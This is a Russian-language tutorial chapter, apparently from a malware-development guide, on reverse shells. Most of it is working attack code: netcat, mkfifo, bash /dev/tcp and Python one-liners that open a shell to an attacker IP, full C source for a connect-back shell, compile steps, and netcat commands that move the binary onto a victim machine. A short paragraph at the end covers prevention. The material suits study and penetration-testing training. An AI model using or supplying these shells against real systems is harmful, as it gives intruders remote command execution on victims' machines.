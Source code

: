 \newpage
\subsection{3. реверс шелл (обратная оболочка)}

﷽

![reverse shells](./images/4/2021-09-16_11-26.png){height=400px}    

Прежде всего, мы рассмотрим такое понятие, как обратная оболочка (reverse shell), так как это очень важный аспект в разработке вредоносного ПО.

### что такое реверс шелл (обратная оболочка)?

Обратная оболочка (reverse shell), также называемая connect-back shell, - это удаленная оболочка, создаваемая с целевого устройства путем установления соединения с машиной атакующего и запуска целевой оболочки на машине атакующего. Обычно это используется в процессе эксплуатации уязвимости для получения контроля над удаленной машиной.     

![rev shells](./images/4/shells.png)

Обратная оболочка может использовать распространенные исходящие порты, такие как `80, 443, 8080` и другие.    

Обратная оболочка обычно применяется, когда целевая машина жертвы блокирует входящее соединение по определенному порту брандмауэром. Чтобы обойти это ограничение, специалисты Red Team и пентестеры используют обратные оболочки.     

Однако здесь есть один нюанс. Это подвергает сервер управления атакующего риску обнаружения, а сетевые службы мониторинга безопасности могут зафиксировать следы атаки.    

Существует три этапа для получения обратной оболочки.    
Сначала атакующий эксплуатирует уязвимость в целевой системе или сети, которая позволяет выполнить код.    
Затем атакующий настраивает прослушиватель (listener) на своей машине.     
Далее атакующий внедряет обратную оболочку в уязвимую систему для эксплуатации уязвимости.    

Есть еще один нюанс. В реальных кибератаках обратную оболочку можно также получить через социальную инженерию. Например, вредоносное ПО, установленное на локальную рабочую станцию с помощью фишингового письма или вредоносного веб-сайта, может инициировать исходящее соединение с командным сервером и предоставить хакерам возможность обратного соединения.     

![social engineering](./images/4/shells2.png){width="80%"}

Цель этого поста - не эксплуатация уязвимости в целевом хосте или сети, но для понимания достаточно знать что основная идея там заключается в поиске уязвимости, которая может быть использована для выполнения кода.   

В зависимости от установленной на жертве системы и запущенных там сервисов, обратная оболочка может быть разной, например, `php, python, jsp` и т. д.    

***

### listener

Для простоты в этом примере жертва разрешает исходящие соединения на любом порту (по умолчанию правило брандмауэра `iptables`). В нашем случае мы используем `4444` в качестве порта прослушивания. Вы можете изменить его на любой другой порт. Прослушиватель может быть любой программой/утилитой, способной открывать TCP/UDP соединения или сокеты. В большинстве случаев я предпочитаю использовать утилиту `nc` или `netcat`.   

```bash
nc -lvp 4444
```

В этом случае параметры `-l` - слушать, `-v` - подробный вывод и `-p` - порт `4444` на всех интерфейсах. Вы также можете добавить `-n` для работы только с IP-адресами без использования DNS.    

![listener](./images/4/2021-09-11_17-59.png)    

***

### запуск обратной оболочки (примеры)

Для простоты в наших примерах целью является машина с Linux.   
**1. netcat**   
Запуск:
```bash
nc -e /bin/sh 10.9.1.6 4444
```

Где `10.9.1.6` - это IP-адрес машины атакующего, а `4444` - прослушиваемый порт.   

![netcat](./images/4/2021-09-11_18-04.png){width="80%"}

**2. netcat без -e**    

В новых версиях Linux по умолчанию используется традиционный netcat с отключенной опцией `GAPING_SECURITY_HOLE`, что означает отсутствие опции `-e`.

В этом случае на машине жертвы выполните:
```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | 
/bin/sh > /tmp/p 2>&1; rm /tmp/p
```

![netcat without e](./images/4/2021-09-11_18-23.png){width="80%"}

**3. bash**   

Не работает на старых дистрибутивах на базе Debian.   

Запуск:
```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

![bash rev shell](./images/4/2021-09-11_18-12.png){width="80%"}

**4. python**

Чтобы создать полуинтерактивную оболочку с помощью Python, выполните:
```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<LHOST>",<LPORT>));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![python rev shell](./images/4/2021-09-11_18-36.png){width="80%"}

Больше примеров: [github reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)    

***

### создание обратной оболочки на C

Моя любимая часть. Так как я пришел в кибербезопасность с бэкграундом разработчика ПО, мне нравится "изобретать велосипед", это помогает лучше понять многие концепции и иногда заглянуть "под капот" многих процессов.    

Как я писал выше, мы будем писать обратную оболочку которую запустим на Linux (целевой хост)   

Создайте файл `shell.c`:
```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

  // attacker IP address
  const char* ip = "10.9.1.6";

  // address struct
  struct sockaddr_in addr;
  addr.sin_family = AF_INET;
  addr.sin_port = htons(4444);
  inet_aton(ip, &addr.sin_addr);

  // socket syscall
  int sockfd = socket(AF_INET, SOCK_STREAM, 0);

  // connect syscall
  connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

  for (int i = 0; i < 3; i++) {
    // dup2(sockftd, 0) - stdin
    // dup2(sockfd, 1) - stdout
    // dup2(sockfd, 2) - stderr
    dup2(sockfd, i);
  }

  // execve syscall
  execve("/bin/sh", NULL, NULL);

  return 0;
}
```

Скомпилируем:

```bash
gcc -o shell shell.c -w
```

![c rev shell compile](./images/4/2021-09-11_18-53.png){width="80%"}

*если вы компилируете для 32-bit linux запустите:* ```gcc -o shell -m32 shell.c -w```

Давайте перейдем к передаче файла на машину жертвы. Передача файла считается одним из самых важных шагов, включенных в постэксплуатацию (как я уже писал ранее, мы не рассматриваем шаг эксплуатации).    

Мы воспользуемся инструментом, который известен как "швейцарский нож хакера", netcat.    

на машине жертвы запустите:    
```bash
nc -lvp 4444 > shell
```

а на машине атакующего:    
```bash
nc 10.9.1.19 4444 -w 3 < shell
```

![file transfer via netcat](./images/4/2021-09-11_19-09.png){width="80%"}

проверка:
```bash
./shell
```

![run](./images/4/2021-09-11_19-41.png){width="80%"}

[Source code in Github](https://github.com/cocomelonc/2021-09-11-reverse-shells)

***

### предотвращение

К сожалению, нет способа полностью заблокировать обратные оболочки. Если вы намеренно не используете обратные оболочки для удаленного администрирования, любые обратные соединения оболочки, скорее всего, будут считаться вредоносными. Чтобы ограничить эксплуатацию, вы можете заблокировать исходящие соединения, чтобы разрешить только определенные удаленные IP-адреса и порты для требуемых служб. Этого можно добиться путем помещения сервера в песочницу или запуска сервера в минимальном контейнере.    